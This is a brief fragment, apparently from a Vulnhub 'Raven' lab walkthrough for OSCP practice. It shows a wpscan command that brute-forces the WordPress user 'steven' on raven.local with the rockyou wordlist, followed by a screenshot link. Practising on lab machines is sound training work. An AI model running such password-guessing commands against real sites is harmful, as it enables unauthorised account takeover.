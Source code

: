 test
Cracking user steven with wpscan tools
Command : wpscan --url raven.local -usernames steven -passwords /usr/share/wordlists/rockyou.txt
<img width="708" alt="image" src="https://github.com/psfauzi/Vulnhub_Like_OSCP/assets/49013900/5ee84fd3-b7e9-4677-81bf-120888c9125d">
